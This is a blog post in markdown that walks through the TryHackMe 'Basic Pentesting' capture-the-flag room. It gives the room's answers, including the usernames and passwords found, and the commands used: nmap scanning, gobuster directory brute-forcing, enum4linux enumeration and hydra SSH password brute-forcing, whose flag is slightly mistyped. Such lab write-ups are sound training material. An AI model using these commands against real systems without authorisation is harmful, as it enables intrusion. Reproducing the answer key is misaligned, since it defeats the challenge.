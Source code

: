```yaml
---
title: "THM | Basic Pentesting"
date: 2022-01-04
type: "post"
draft: false
showtableOfContents: true
---
```


## Room

https://tryhackme.com/room/basicpentestingjt

## Task 1: Web App Testing and Privilege Esclation

##### Question 1: Question 1: Deploy he machine and connect to our network

*No Answer Needed*

##### Question 2: Find the services exposed by the machine

*No Answer Needed*

```bash
nmap -Pn -sC -sV -oN nmap <machine-ip>
```
![screenshot of output](https://miro.medium.com/max/630/1*tpCgORnKIyed_z4sRlL8kA.png)

##### Question 3: What is the name of the hidden directory on the web server(enter name without /)?

*~ development*

```bash 
gobuster dir -u <machine-ip> -w <[dir-to-directory-list-2.3-medium.txt](https://gitlab.com/kalilinux/packages/dirbuster/-/raw/kali/master/directory-list-2.3-medium.txt)>
```
[wordlist used^](https://gitlab.com/kalilinux/packages/dirbuster/-/raw/kali/master/directory-list-2.3-medium.txt)

![screenshot of output](https://miro.medium.com/max/630/1*FDY0BahFI6DpOoA8SMLpUg.png)

##### Question 4: User brute-forcing to find the username & password

*No Answer Needed*

##### Question 5: What is the username? 

*~ jan*

```bash
sudo ./enum4linux.pl -a <machine-ip> | tee enum.log
```

![screenshot of output](https://miro.medium.com/max/630/1*xH8LzAYbJlzC5rBNKILQmA.png)

If we run Enum against the machine ip we find that there are users "kay" & "jan", You can write any one of them as the answer.

##### Question 6: What is the password? 

*~ armando*

we can try brute forcing ssh to get password since there is a ssh service running on the server. We know this because of the nmap scan @ question 1. For this we will use hydra.

```bash 
hydra -l jan -p <dir-to-rockyou.txt> ssh://<machine-ip> -t 4
```
![screenshot of the output](https://miro.medium.com/max/630/1*kdsYKu4vRVd3CV2wJO1lkQ.png)

##### Question 7: What service do you use to access the server (answer in abbreviation in all caps)?

*~ SSH*

##### Question 8: Enumerate the machine to find any vectors for privilege escalation

*No Answer Needed*

Question 9: What is the name of the other user you found (all lower case)? 

*~ kay*

we know the answer from question 5.

##### Question 10: If you found another user, what can you do with this information?

*No Answer Needed*

##### Question 11: What is the final password you obtain?

*~ heresareallystrongpasswordthatfollowsthepasswordpolicy$$*

that's it ✌🏽

-------------------------------------------------------------
{{< rawhtml >}} 
<script src="https://utteranc.es/client.js"
        repo="mansoorbarri/website"
        issue-term="title"
        theme="dark-blue"
        crossorigin="anonymous"
        async>
</script>
{{< /rawhtml >}}